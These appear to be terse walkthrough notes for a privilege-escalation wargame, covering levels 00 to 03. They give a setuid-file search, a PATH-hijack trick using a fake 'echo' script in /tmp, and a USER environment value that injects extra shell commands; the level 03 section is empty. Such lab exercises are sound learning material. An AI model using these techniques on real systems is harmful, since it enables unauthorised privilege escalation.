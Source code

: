 # level 00
find / -perm -4000 -exec ls -ldb {} \; | grep "flag00"

# level 01
write the following lines to a file in /tmp/echo:

```
#!/bin/sh
printf '%s\n' 'i win' 

PATH=/tmp/echo:$PATH flag01
```

it will execute your echo script.

# level 02

Set the `USER` environment variable, then run the executable
```
USER='"foo"; echo "owned"; echo "foo"'
```

# level 03

